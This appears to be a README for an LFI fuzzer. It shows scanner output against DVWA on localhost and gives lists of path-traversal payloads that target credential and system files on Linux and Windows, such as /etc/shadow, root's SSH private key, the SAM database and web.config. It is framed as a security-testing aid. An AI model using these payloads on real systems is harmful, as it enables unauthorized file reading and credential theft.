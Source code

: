 The scanner will indicate when it finds an LFI vulnerability:
```bash
Testing: http://localhost/dvwa/vulnerabilities/fi/?page=../../../../etc/passwd
[+] Vulnerable to LFI: http://localhost/dvwa/vulnerabilities/fi/?page=../../../../etc/passwd
```

# PAYLOADS: 

## By editing payloads.txt, you can expand the list based on the specific environment or application you are testing.

### **How to Use the Payloads.txt File**
- **Edit the payloads.txt** file in the root directory of your project.
- The LFI Fuzzer will automatically load the payloads from this file and use them to test vulnerable endpoints in web applications.

Let me know if you need any more adjustments !!


#LFI Fuzzer Payloads: Common Use Cases and Sensitive File Paths
1. Local File Inclusion (LFI) Vulnerabilities in Linux-based Systems: Local File Inclusion (LFI) occurs when an application dynamically includes files based on user input. This is commonly found in Linux systems, and attackers often target configuration files or sensitive system files.

##Common Sensitive File Paths:
```bash
../../../../../../etc/passwd                     # Linux password file, critical for user info
../../../../../../etc/shadow                     # Password hashes (requires root permissions)
../../../../../../etc/hosts                      # Hosts file for local network names
../../../../../../etc/hostname                   # System hostname
../../../../../../etc/mysql/my.cnf               # MySQL config file containing database credentials
../../../../../../proc/self/environ              # Environmental variables (might include user sessions)
../../../../../../var/log/auth.log               # Authentication logs (login history)
../../../../../../var/mail/root                  # Emails sent to root user
../../../../../../var/log/dmesg                  # Kernel logs
../../../../../../root/.ssh/id_rsa               # Private SSH key for root access
```

## 2. Windows-based System: Traversal Paths:  Windows-based systems also contain sensitive files that can be accessed via LFI vulnerabilities. The file paths in Windows follow a different structure.
```bash
../../../../../../windows/win.ini                # Basic system settings (legacy but sensitive)
../../../../../../windows/system32/drivers/etc/hosts  # Windows hosts file
../../../../../../windows/system32/config/sam     # Security Account Manager database (password hashes)
../../../../../../windows/system32/config/system  # Windows registry settings
../../../../../../windows/system32/config/software  # Installed software information
../../../../../../windows/system32/config/security # Security settings for the OS
../../../../../../windows/system32/license.rtf    # Windows license file
../../../../../../windows/repair/sam              # Backup of the SAM file
../../../../../../inetpub/wwwroot/web.config      # IIS web server configuration
../../../../../../windows/system32/drivers/etc/services  # List of network services
```
##3. Common Web Applications (WordPress, Joomla, Drupal, etc.): Many web applications store their configuration files in predictable locations, which can be exploited using LFI vulnerabilities.
